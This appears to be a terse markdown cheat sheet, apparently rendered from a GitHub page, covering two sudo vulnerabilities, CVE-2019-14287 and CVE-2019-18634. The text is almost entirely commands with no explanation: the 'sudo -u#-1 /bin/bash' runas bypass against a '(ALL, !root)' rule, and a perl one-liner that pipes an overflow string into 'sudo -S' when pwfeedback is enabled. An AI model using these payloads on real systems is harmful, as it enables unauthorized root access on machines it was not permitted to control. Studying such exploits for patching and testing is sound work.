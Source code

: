 # CVEs


## CVE-2019-14287

```sh
(ALL, !root) NOPASSWD: /bin/bash
```

```
sudo -u#-1 /bin/bash
```


## CVE-2019-18634

```sh
cat /etc/sudoers
# Defaults env_reset,pwfeedback
```

```sh
perl -e 'print(("A" x 100 . "\x{00}") x 50)' | sudo -S id
```